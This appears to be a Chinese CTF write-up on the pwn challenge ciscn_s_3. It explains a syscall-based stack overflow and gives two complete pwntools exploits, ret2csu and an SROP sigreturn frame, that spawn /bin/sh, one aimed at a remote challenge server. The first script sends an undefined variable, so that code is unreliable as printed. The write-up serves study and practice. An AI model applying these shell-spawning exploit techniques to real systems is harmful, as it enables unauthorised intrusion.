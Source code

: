 ```yaml
---
title: 周练一（1）
date: 2020-07-13 17:55:21
tags:
  - wp
  - study
categories:
  - pwn
---
```

>第一次周练中的ciscn_s_3中有涉及到SROP知识点，复习一下
## ciscn_s_3
放到gdb里看一下保护
<br>![checksec](1.png)</br>
没开什么特别的保护，丢到ida里面看看，它main函数里面只有一个vuln函数，而vuln函数就只有短短几行,但里面有两个系统调用，一处是sys_read,向栈上读取数据(0x400),一处是sys_write，向栈上写入数据(0x30),这里就存在栈溢出。
<br>![vuln函数](2.png)</br>
<br>![](4.png)</br>
然后还发现一个gadgets函数,在这个函数中有两处出现了给rax赋值，分别赋值0x0F,0x3B,然后这个涉及到系统调用号的问题。
<br>![gadgets函数](3.png)</br>

### 32位与64位 系统调用的区别：

1. 传参方式不同<br>
2. 系统调用号 不同<br>
3. 调用方式 不同

<br>32位：
<br>传参方式：首先将系统调用号 传入 eax，然后将参数 从左到右 依次存入 ebx，ecx，edx寄存器中，返回值存在eax寄存器
<br>调用号：sys_read 的调用号 为 3 sys_write 的调用号 为 4
<br>调用方式: 使用 int 80h 中断进行系统调用
<br>64位：
<br>传参方式：首先将系统调用号 传入 rax，然后将参数 从左到右 依次存入 rdi，rsi，rdx寄存器中，返回值存在rax寄存器
<br>调用号：sys_read 的调用号 为 0 sys_write 的调用号 为 1
<br>stub_execve 的调用号 为 59 stub_rt_sigreturn 的调用号 为 15
<br>调用方式: 使用 syscall 进行系统调用</br>

然后这里的0x0F就是15,0x3B就是59，所以这边的两个64位的系统调用号都可以使用，所以就有两个方法
### 第一种;ret2__libc_csu_init

第一种就是利用 ret2__libc_csu_init 去构造 execve("/bin/sh",0,0) 来 getshell
<br>这种方法我们就需要</br>
+ 系统调用号，即 rax 应该为 0x3B
+ 第一个参数，即 rdi 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
+ 第二个参数，即 rsi 应该为 0
+ 第三个参数，即 rdx 应该为 0

</br>通过查询</br>
<br>![](5.png)</br>
<br>在这里面只发现了rdi_ret,这个gadget还不够，就需要我们去ida里__libc_csu_init函数里去寻找
<br>![](6.png)</br>
<br>这里的retn代表着pop rip即将当前栈顶的内容赋值给rip.r13的值会给到rdx，让rbx=0，下面call的时候会变为call [r12]，会去call r12指向位置的代码，我们可以调到后面的rop执行，所以需要知道栈的地址，我们获取/bin/sh字符串时也需要知道栈地址。
<br>exp.py
```
from pwn import *
c=process('./ciscn')

exev_addr=0x004004E2
pop_rdi_ret=0x004005a3
pop_rbx_rbp_ret=0x0040059A
__libc_csu_init=0x00400580
syscall_addr=0x00400517
vuln_addr=0x004004ED

payload = ''
payload += '/bin/sh\x00'+'a'*0x8+p64(vuln_addr)
c.sendline(payload)
c.recv(0x20)
stack_addr=u64(c.recv(8))
bin_sh=stack_addr-0x118

pload = ''
pload += '/bin/sh\x00'+'a'*8+p64(pop_rbx_rbp_ret)
pload +=p64(0)*2+p64(bin_sh+0x50)+p64(0)*3
pload += p64(__libc_csu_init)+p64(exev_addr)+p64(pop_rdi_ret)+p64(bin_sh)+p64(syscall_addr)

c.send(pl)
c.interactive()

```
### 第二种： SROP

第二种就是直接srop 伪造 sigreturn frame 去 构造 execve("/bin/sh",0,0) 来 getshell
<br>首先利用 mov rax, 0Fh 控制rax为 15，然后 调用 syscall 即执行了 sigreturn，我们 伪造 sigreturn frame 去 执行 execve("/bin/sh",0,0) 即可
<br>exp.py
```
from pwn import *

context.arch = 'amd64'
c = remote('106.15.120.40',8001)


syscall_addr = 0x00400517
read_write = 0x004004F1
gadget= 0x004004DA

payload = ''
payload += '/bin/sh\x00'+'a'*0x8+p64(read_write)
c.send(payload)
c.recv(0x20)
stack_addr = u64(c.recv(8).ljust(8,'\x00'))
print(hex(stack_addr))
binsh_addr= stack_addr-0x118


frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr

payload = 'a'*0x10 +p64(gadget)+p64(syscall_addr)+str(frame)
c.send(payload)

c.interactive()
```

